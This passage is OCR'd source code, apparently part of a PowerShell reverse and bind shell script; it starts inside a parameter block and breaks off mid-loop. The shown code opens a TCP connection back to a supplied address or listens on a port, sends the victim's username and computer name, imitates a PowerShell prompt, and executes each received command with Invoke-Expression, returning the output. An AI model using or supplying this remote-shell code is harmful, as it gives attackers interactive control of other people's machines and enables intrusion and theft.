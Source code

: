 ```
        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="bind")]
        [Int]
        $Port,

        [Parameter(ParameterSetName="reverse")]
        [Switch]
        $Reverse,

        [Parameter(ParameterSetName="bind")]
        [Switch]
        $Bind

    )

    
    try 
    {
        #Connect back if the reverse switch is used.
        if ($Reverse)
        {
            $client = New-Object System.Net.Sockets.TCPClient($IPAddress,$Port)
        }

        #Bind to the provided port if Bind switch is used.
        if ($Bind)
        {
            $listener = [System.Net.Sockets.TcpListener]$Port
            $listener.start()    
            $client = $listener.AcceptTcpClient()
        } 

        $stream = $client.GetStream()
        [byte[]]$bytes = 0..65535|%{0}

        #Send back current username and computername
        $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)

        #Show an interactive PowerShell prompt
        $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
        $stream.Write($sendbytes,0,$sendbytes.Length)

        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
        {
            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
            $data = $EncodedText.GetString($bytes,0, $i)
            try
            {
                #Execute the command on the target.
                $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
            }
            catch
            {
                Write-Warning "Something went wrong with execution of command on the target." 
                Write-Error $_
            }
            $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
            $x = ($error[0] | Out-String)
            $error.clear()
            $sendback2 = $sendback2 + $x
```
